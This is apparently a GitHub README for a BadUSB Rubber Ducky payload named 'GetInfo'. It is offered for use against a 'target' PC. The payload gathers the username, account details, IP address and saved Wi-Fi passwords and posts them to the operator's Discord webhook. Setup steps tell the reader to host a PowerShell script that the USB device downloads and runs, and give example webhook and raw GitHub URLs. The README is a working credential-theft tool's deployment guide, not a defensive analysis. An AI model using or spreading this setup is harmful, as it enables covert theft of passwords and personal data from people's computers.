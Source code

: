 # GetInfo - BadUSB Rubber Ducky Script

This BadUSB Rubber Ducky script is designed to swiftly collect information from a target's PC and transmit it to your personal Discord server. The script runs for approximately 3 seconds, gathering data such as username, computer name, disk location, account details, OS version, IP address, and previously signed-in Wi-Fi networks with passwords.

## How to Set Up


1. Duplicate this GitHub repository to host it online for accessibility.


2. Edit the code in the duplicated `getinfo.ps1` file to update the Discord webhook API credentials at line 7 and the URL to `command.txt` at line 9 with your specific information,
EXAMPLE:

`$hookUrl = "https://discord.com/api/webhooks/120056/HOw7_j7W-jMllc-uZMbCWq1DEYJUuKj"`

`$url = "https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/raw/main/command.txt"`


4. On your BadUSB Rubber Ducky device, install the script from `RemoteHack.txt`.


5. Replace `'link-to/getinfo.ps1'` in the script with the custom hosted URL of your `.ps1` file within the duplicated GitHub repository,
Example:
`link-to/getinfo.ps1` ==> `https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/raw/main/getinfo.ps1`


5.The updated RemoteHack.txt is your new payload file.


By following these steps, you can deploy and customize the GetInfo script for your specific use case. Ensure that the Discord webhook and the URL to `command.txt` in your duplicated GitHub repository are correctly configured in the `.ps1` file for the script to function as intended, securely transmitting gathered information to your Discord server.
